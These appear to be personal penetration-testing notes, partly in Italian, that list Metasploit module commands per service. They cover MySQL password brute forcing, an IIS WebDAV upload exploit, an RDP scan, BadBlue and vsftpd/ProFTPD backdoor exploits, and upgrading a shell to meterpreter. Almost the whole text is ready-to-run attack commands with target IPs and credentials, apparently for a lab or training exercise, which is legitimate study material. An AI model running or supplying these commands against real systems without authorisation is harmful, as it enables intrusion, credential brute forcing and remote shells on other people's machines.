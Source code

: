 ## MySQL 3306
	• use auxiliary/scanner/mysql/mysql_login
	  set RHOSTS 10.0.25.212
	  set PASS_FILE /usr/share/wordlists/metasploit/unix_passwords.txt
	  exploit (brute)

## Microsoft IIS 80
	• msfconsole -q && service postgresql start
	• use exploit/windows/iis/iis_webdav_upload_asp
	  set RHOSTS 10.0.17.27
	  set HttpUsername bob
	  set HttpPassword password_123321
	  set PATH /webdav/metasploit%RAND%.asp
	  Exploit 

## RDP 3389
	• msfconsole -q && service postgresql start
	  use auxiliary/scanner/rdp/rdp_scanner
	  set RHOSTS 10.0.0.31
	  set RPORT 3333
	  Exploit

## HTTP BadBlue 80
	• msfconsole -q && service postgresql start
	  use exploit/windows/http/badblue_passthru
	  set RHOSTS 10.0.27.166
	  exploit (apre la sessione meterpreter)




# Linux Exploitation

## FTP 21
	• nmap -sS -sV 192.130.172.3
	• nmap -p 21 --script vuln 192.130.172.3
	• use exploit/unix/ftp/vsftpd_234_backdoor
	  set RHOST 192.130.172.3
	  Exploit (apre shell)
	• Ctrl+z
	• use multi/manage/shell_to_meterpreter -> set LHOST=eth1 -> set RHOST IPKALI -> set SESSION 1 -> run (apre una sessione 		  meterpreter)
	• sessions 2 (entri nel meterpreter)
 	• msfconsole -q && service postgresql start
	  use exploit/unix/ftp/proftpd_133c_backdoor
	  set RHOSTS 192.35.134.3
	  exploit -z
